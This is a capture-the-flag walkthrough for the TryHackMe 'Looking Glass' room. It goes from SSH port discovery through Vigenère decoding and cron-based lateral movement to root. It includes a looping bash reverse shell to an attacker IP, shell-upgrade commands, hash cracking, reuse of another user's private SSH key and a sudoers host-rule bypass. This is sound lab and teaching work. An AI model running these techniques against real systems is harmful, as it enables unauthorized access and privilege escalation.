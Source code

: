 # Looking Glass

**Room link:** https://tryhackme.com/room/lookingglass

_A sequel to the [Wonderland](Wonderland.md) challenge room._

1. `nmap -r` reveals SSH services on port 22 and on all ports 9000-13999. This range ports only answer with messages `Lower` or `Higher` before closing the connection.

2. We use binary search to locate the right port.

```python
import sys, subprocess

IP = '10.10.***.*'

pl = 9000 
ph = 13999

def ask_port(p):
    try:
        ps = subprocess.run(('ssh', '-q', '-o', 'StrictHostKeyChecking no', '-p', str(p), IP),
                            capture_output=True, timeout=5)
    except subprocess.TimeoutExpired:
        return None
    return ps.stdout.decode().strip()

while pl < ph:
    p = (pl+ph)//2
    print(f'Asking port {p}...', end=' ', flush=True, file=sys.stderr)
    ans = ask_port(p)
    if ans=='Lower':
        pl = p+1
        print(ans, flush=True, file=sys.stderr)
    elif ans=='Higher':
        ph = p-1
        print(ans, flush=True, file=sys.stderr)
    else:
        pl = ph = p
        print('Found!', flush=True, file=sys.stderr)
print(pl)
```

**NB:** That port is actually randomized.

3. We connect to that port through SSH.

```
$ ssh -p $PORT $TARGET_IP
You've found the real service.
Solve the challenge to get access to the box
Jabberwocky
'Mdes mgplmmz, cvs alv lsmtsn aowil
Fqs ncix hrd rxtbmi bp bwl arul;
Elw bpmtc pgzt alv uvvordcet,
Egf bwl qffl vaewz ovxztiql.
...
Jdbr tivtmi pw sxderpIoeKeudmgdstd
Enter Secret:
```

We get a [famous poem](https://en.wikipedia.org/wiki/Jabberwocky) (+ an additional strophe) that seems alphabetically-encrypted. Knowing the cleartext, we quickly figure out that it is a Vigenère cipher (available in [CyberChef](https://gchq.github.io/CyberChef/)) with the key `thealphabetcipher`.

Once deciphered, the last line reveals the secret:

```
Your secret is **REDACTED**
```

Entering that secret, we get credentials back:

```
jabberwock:**REDACTED**
```

**NB:** That password is actually randomized.

4. Log in as `jabberwock` through SSH (on port 22) and get the (mirrored) **user flag**.

```
jabberwock@looking-glass:~$ ls -l
total 12
-rw-rw-r-- 1 jabberwock jabberwock 935 Jun 30  2020 poem.txt
-rwxrwxr-x 1 jabberwock jabberwock  38 Jul  3  2020 twasBrillig.sh
-rw-r--r-- 1 jabberwock jabberwock  38 Jul  3  2020 user.txt
jabberwock@looking-glass:~$ cat user.txt
**DETCADER**
jabberwock@looking-glass:~$ sudo -l
...
    (root) NOPASSWD: /sbin/reboot
jabberwock@looking-glass:~$ cat /etc/crontab 
...
@reboot tweedledum bash /home/jabberwock/twasBrillig.sh
```

We are allowed to reboot and `tweedledum` conveniently executes our `twasBrillig.sh` script at reboot!

5. Inject a reverse shell (in an infinite loop in order to easily deal with unfortunate lost connections) and reboot.

```
jabberwock@looking-glass:~$ echo 'while true; do bash -i >& /dev/tcp/10.9.***.***/4444 0>&1; done' > twasBrillig.sh
jabberwock@looking-glass:~$ sudo reboot
```

6. Grab the reverse shell as `tweedledum` and upgrade it.

```
$ nc -lnvp 4444
tweedledum@looking-glass:~$ python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
$ stty raw -echo; fg
tweedledum@looking-glass:~$ ls -l
ls -l
total 8
-rw-r--r-- 1 root root 520 Jul  3  2020 humptydumpty.txt
-rw-r--r-- 1 root root 296 Jul  3  2020 poem.txt
tweedledum@looking-glass:~$ cat humptydumpty.txt 
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
7468652070617373776f726420697320************REDACTED************
```

[CrackStation](https://crackstation.net/) knows these hashes (SHA-256 of `maybe`, `one`, `of`, `these`, `is`, `the`, `password`) except the last one, which is the hex-encoding of:

```
the password is **REDACTED**
```

7. Log in as `humptydumpty` (using `su`). Nothing interesting at home this time...

Observe (this might take a bit of time...) that we have execution rights on `alice`'s home, that we can even navigate to `/home/alice/.ssh` and that the anticipated private key surprisingly belongs to us!

```
humptydumpty@looking-glass:~$ ls -lh /home
total 24K
drwx--x--x 6 alice        alice        4.0K Jul  3  2020 alice
drwx------ 3 humptydumpty humptydumpty 4.0K Jan  4 01:28 humptydumpty
drwxrwxrwx 5 jabberwock   jabberwock   4.0K Jul  3  2020 jabberwock
drwx------ 5 tryhackme    tryhackme    4.0K Jul  3  2020 tryhackme
drwx------ 3 tweedledee   tweedledee   4.0K Jul  3  2020 tweedledee
drwx------ 2 tweedledum   tweedledum   4.0K Jul  3  2020 tweedledum
humptydumpty@looking-glass:/home/alice/.ssh$ ls -l /home/alice/.ssh/id_rsa
-rw------- 1 humptydumpty humptydumpty 1679 Jul  3  2020 /home/alice/.ssh/id_rsa
humptydumpty@looking-glass:~$ cat /home/alice/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
...
```

8. Copy it and log in as `alice` through SSH. Without the password, we cannot run `sudo -l`.

Observe however (once again this might take a bit of time...) that anyone can read `/etc/sudoers.d/alice`!

```
alice@looking-glass:~$ ls -l /etc/sudoers.d/
total 16
-r--r----- 1 root root 958 Jan 18  2018 README
-r--r--r-- 1 root root  49 Jul  3  2020 alice
-r--r----- 1 root root  57 Jul  3  2020 jabberwock
-r--r----- 1 root root 120 Jul  3  2020 tweedles
alice@looking-glass:~$ cat /etc/sudoers.d/alice 
alice ssalg-gnikool = (root) NOPASSWD: /bin/bash
```

So we can run `bash` as `root` without password, but only on host `ssalg-gnikool`. Whatever, time to grab the (mirrored) **root flag**.

```
alice@looking-glass:~$ sudo -h ssalg-gnikool bash
sudo: unable to resolve host ssalg-gnikool
root@looking-glass:~# cat /root/root.txt 
**DETCADER**
```
